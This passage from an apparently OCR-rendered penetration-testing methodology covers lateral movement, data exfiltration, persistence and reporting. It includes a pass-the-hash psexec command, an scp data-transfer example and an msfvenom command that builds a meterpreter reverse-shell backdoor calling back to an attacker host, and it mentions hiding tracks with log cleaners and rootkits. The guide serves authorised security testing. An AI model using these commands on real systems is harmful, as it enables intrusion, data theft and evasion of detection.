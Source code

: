             bash

            psexec.py administrator@192.168.1.11 -hashes <NTLM_HASH>

        Exploit trust relationships between systems.
            Use known trust relationships between systems to move laterally.
        Compromise additional targets within the network.
            Continue scanning and exploiting newly identified systems.

5. Post-Exploitation Phase
5.1. Data Exfiltration

    Objective: Simulate the exfiltration of sensitive data.
    Tasks:
        Identify and collect sensitive data from compromised systems.
            Tools: Find, grep, PowerShell.
            Command Example:

            bash

    find / -type f -name "*.conf"

Transfer data to a controlled location for analysis.

    Tools: Netcat, SCP.
    Command Example:

    bash

            scp root@192.168.1.10:/path/to/data.txt /local/path/

        Document the exfiltration process and findings.
            Keep a detailed log of what data was exfiltrated and how.

5.2. Persistence

    Objective: Ensure continued access to compromised systems.
    Tasks:
        Install backdoors or other persistence mechanisms.
            Tools: Metasploit, Custom Scripts.
            Command Example:

            bash

            msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > backdoor.exe

        Hide tracks to evade detection.
            Tools: Log Cleaner Scripts, Rootkits.
        Verify the persistence of access over time.
            Regularly check if the backdoor or other persistence mechanism is still active.

6. Reporting Phase
6.1. Documentation

    Objective: Document all findings and activities.
    Tasks:
        Create detailed reports of vulnerabilities and exploits.
            Include technical details, screenshots, logs, and impact assessments.
        Provide screenshots, logs, and other evidence.
            Use tools like Snipping Tool, Gnome Screenshot.
        Recommend remediation steps for identified issues.
            Provide actionable recommendations to fix the vulnerabilities.
